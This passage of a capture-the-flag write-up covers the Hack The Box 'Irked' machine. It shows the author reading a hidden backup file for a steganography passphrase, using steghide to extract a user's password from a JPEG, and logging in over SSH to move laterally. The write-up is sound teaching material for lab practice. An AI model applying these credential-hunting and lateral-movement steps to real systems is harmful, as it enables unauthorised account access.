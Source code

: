 Thinking simple can pay off at times (: I got my next answer.

Also in the process I found another file that might help the next question, first can I access backup?

```bash
ircd@irked:/$ cat /home/djmardov/Documents/.backup
cat /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

Yes it looks like I can and it has just turned into a CTF with stenography references. I did mention I stumbled on what I think might answer the next question.

What is djmardov's password? 
Searching previously I found a `jpg` called `irked.jpg` so I got to try and see is this the stego.

```bash
ircd@irked:/var/www/html$ ls -la
ls -la
total 48
drwxr-xr-x 2 root root  4096 May 15  2018 .
drwxr-xr-x 3 root root  4096 May 14  2018 ..
-rw-r--r-- 1 root root    72 May 14  2018 index.html
-rw-r--r-- 1 root root 34697 May 14  2018 irked.jpg
```

Initiating a Python server in the directory the `jpg` is in and using **wget** I got this `jpg` local.

```bash
m0j0@r1s1n  ~/HTB/write-ups/irked   m0j0_development ✚  steghide extract -sf 'irked.jpg'
Enter passphrase: 
the file "pass.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "pass.txt".
 m0j0@r1s1n  ~/HTB/write-ups/irked   m0j0_development ✚  cat pass.txt  
Kab6h+m+bbp2J:HG
```

Steghide did a good job and got the password, now the big question.  What for?
I need to try SSH.

```bash
m0j0@r1s1n  ~/HTB/write-ups/irked   m0j0_development ✚  ssh djmardov@irked.htb          
djmardov@irked.htb's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ id
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```
